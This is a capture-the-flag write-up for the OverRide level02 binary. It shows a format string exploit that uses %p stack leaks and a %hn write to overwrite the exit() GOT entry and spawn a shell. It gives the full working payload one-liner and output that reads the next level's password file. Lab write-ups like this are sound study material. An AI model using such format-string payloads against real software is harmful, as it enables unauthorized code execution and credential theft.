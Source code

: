 # Level 02

Firstly, unlike other programs that had Partial RELRO, this one has no RELRO.
To be short, RELRO is what protects the GOT to be written on.
This gives us a clue: the goal is surely to exploit the GOT.

Secondly, this is a 64 bit executable file.
Even though it doesn't change much for this challenge, it's good to keep it in mind.

The program asks for a username and a password,
then the password is compared to the content of `/home/users/level03/.pass`.
If the password is the same as the content of the `.pass` file, we have a shell.
The problem is that there is no way for us to guess the content of `.pass`.

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Kwon Eun-Bi
--[ Password: I have no clue
*****************************************
Kwon Eun-Bi does not have access!
```

Another nice thing: in the end, the username is printed as such: `printf(username)`.
Looks like a format string exploit is possible here!

```bash
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa                                                        
--[ Password: bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
*****************************************
0x7fffffffe500 (nil) 0x62 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x6262626262626262 0x6262626262626262 0x6262626262626262 0x6262626262626262 0x6262626262626262 0x6262626262626262 0x6262626262626262 0x6262626262626262 0x6262626262626262 0x6262626262626262 0x6262626262626262 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa does not have access!
```

Yes it is! And we see that we start having control over the stack at the 8th variable.
Now what do we do from this? After the `printf()` call, there is an `exit()` call.
The idea here is to overwrite the `exit()` address in the GOT.
We can redirect the code execution directly on the main, no need to struggle with a shellcode.

```gdb
   0x0000000000400a78 <+612>:   mov    rdi,rax
   0x0000000000400a7b <+615>:   mov    eax,0x0
   0x0000000000400a80 <+620>:   call   0x4006c0 <printf@plt>
   0x0000000000400a85 <+625>:   mov    edi,0x400d32
   0x0000000000400a8a <+630>:   call   0x4006b0 <system@plt>
   0x0000000000400a8f <+635>:   mov    eax,0x0
   0x0000000000400a94 <+640>:   leave  
   0x0000000000400a95 <+641>:   ret    
```

If we redirect the execution to the `0x400a85` address, the next instuctions will be:
- Put the address of "/bin/sh" into `rdi` (first argument of the functions in 64 bits)
- Call `system()`
- Return

Excatly what we want!
Now with a lot of trial and error, here is the final command:

```bash
./level02 < <(python -c 'print("%c" * 6 + "%2687c" + "%hn" + "/" * 78 + "\x28\x12\x60\x00\x00\x00\x00\x00" + "a" * 3989 + "cd ../level03;cat .pass\n")')
```

Lets decrypt it:
- `"%c * 6` is to pop the first 6 variable of the stack
- `"%2687c"` is to pop the last unusable variable of the stack, and doing so with the padding equal to the value we want to write on the first 2 bytes of the address in the GOT (`0x0a85`)
- `"%hn` to be able to write the 2 bytes we want.
- `"/" * 78` is the padding before being able to put the targetted address
- `"\x28\x12\x60\x00\x00\x00\x00\x00"` is the targetted address
- `"a" * 3989` is to fill the buffer of `read()`
- `"cd ../level03;cat .pass\n"` is for the shell to read once it has taken control over the process.

```bash
level02@OverRide:~$ ./level02 < <(python -c 'print("%c" * 6 + "%2687c" + "%hn" + "/" * 78 + "\x28\x12\x60\x00\x00\x00\x00\x00" + "a" * 3989 + "cd ../level03;cat .pass\n")')
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
(**�
[...]
////////////////////////////////////////////////////////////////////////////// does not have access!
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

